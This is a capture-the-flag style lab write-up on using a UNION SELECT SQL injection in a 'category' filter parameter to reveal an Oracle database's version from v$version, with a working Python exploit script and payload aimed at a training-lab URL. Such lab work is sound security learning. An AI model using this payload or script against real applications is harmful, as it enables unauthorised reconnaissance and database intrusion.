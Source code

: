 ```yaml
---
title: '3 SQLi Lab'
description: 'Using SQL Injection to determine Oracle database details via v$version'
---
```



## SQL injection attack, querying the database type and version on Oracle

<div style="text-align: justify;">
  In this lab, I learned how SQL injection can be leveraged not just for login bypass or data leaks, but for critical recon such as identifying the target database type and version. Using a UNION SELECT injection on an Oracle backend, I was able to extract data from the `v$version` view. Knowing the exact DBMS and version is valuable during real-world exploitation, as it informs which payloads and techniques are likely to succeed.

  The vulnerable parameter was found in the `category` filter, which accepted user input unsafely. Crafting a payload to select from `v$version` revealed the Oracle database version, confirming the injection point and enabling further targeted testing.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The input in the `category` parameter is injectable.
- A **UNION SELECT** statement is used to retrieve DB banner/version.
- Oracle's `v$version` view is targeted to reveal backend info.
- Script looks for a success message (e.g., "Congratulations") in the response.
- This indicates that the injected query was executed and returned data.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Congratulations" in r.text:
        return True
    else:
        return False


if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION+SELECT+BANNER,BANNER+FROM+v$version--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")        
```


<Comment />
